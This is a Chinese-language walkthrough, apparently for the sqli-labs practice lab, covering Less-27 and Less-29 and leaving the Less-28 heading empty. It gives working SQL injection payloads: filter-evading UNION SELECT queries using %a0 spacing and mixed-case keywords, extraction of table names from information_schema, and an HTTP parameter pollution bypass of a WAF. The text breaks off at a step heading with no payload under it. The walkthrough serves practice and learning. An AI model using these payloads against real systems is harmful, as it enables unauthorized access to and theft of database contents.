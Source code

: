 ## Less-27

**过滤union、select**

```
?id=1'%a0ORDER%a0BY%a03||'1'='1

?id=9999'%a0UNION%a0SELECT%a01,2,3%a0or%a0'1'='1

?id=1111'%a0UniOn%a0SelECT%a01,2,3;%00


?id=9999'%a0UNiON%a0SElECT%a01,2,3%a0or%a0'1'='1

?id=9999'%a0UNiON%a0SELeCT%a01,database(),3%a0or%a0'1'='1

?id=9999'%a0UNiON%a0SELeCT%a01,group_concat(table_name),3%a0FROM%a0information_schema.tables%a0WHERE%a0table_schema = 'security'%a0or%a0'1'='2
```

## Less-28

## Less-29

**HPP-'**

**WAF (Web 应用防护系统)**是通过执行一系列针对 HTTP/HTTPS 的安全策略来专门为 Web 应用提供保护的一款产品。此处应该是对注入的参数进行了强效过滤，以此达到了 WAF 的作用。

绕过的方法是 **HPP (HTTP Parameter Pollution)**，也就是 HTTP 参数污染。我们注入两个同名的参数 id，第一个参数用于绕过 WAF，第二个参数用于注入。

```
?id=1&id=2
```

这种攻击成功绕过了 WAF，对第二个参数用单引号闭合并注释掉后面的内容。网页回显正常的参数，说明网页存在单引号闭合的字符型注入。

```
?id=1&id=2'--+
```

获取数据库信息

使用参数污染后，注入流程和 Less 1 一样。判断表有几列。

```
?id=1&id=1' ORDER BY 3--+
```

判断哪些列可用。

```
?id=1&id=-1' UNION SELECT 1,2,3--+
```

爆数据库名。
